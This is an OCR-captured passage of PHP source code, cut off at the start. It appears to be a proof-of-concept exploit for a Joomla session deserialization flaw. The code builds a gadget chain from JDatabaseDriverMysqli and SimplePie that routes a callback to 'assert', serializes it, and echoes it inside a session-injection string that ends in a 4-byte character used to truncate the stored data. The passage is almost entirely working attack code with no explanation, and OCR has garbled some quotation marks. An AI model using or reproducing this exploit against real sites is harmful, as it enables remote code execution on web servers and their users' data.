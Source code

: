 ```
$this->cache_name_function = “assert”;

$this->sanitize = new JDatabaseDriverMysql();

$this->cache = true;

}

}

class JDatabaseDriverMysqli {

protected $a;

protected $disconnectHandlers;

protected $connection;

function __construct()

{

$this->a = new JSimplepieFactory();

$x = new SimplePie();

$this->connection = 1;

$this->disconnectHandlers = [

[$x, “init”],

];

}

}

$a = new JDatabaseDriverMysqli();

$poc = serialize($a);

$poc = str_replace("\x00*\x00", ‘\0\0\0’, $poc); `echo “123}__test|{$poc}\xF0\x9D\x8C\x86”;` 
```
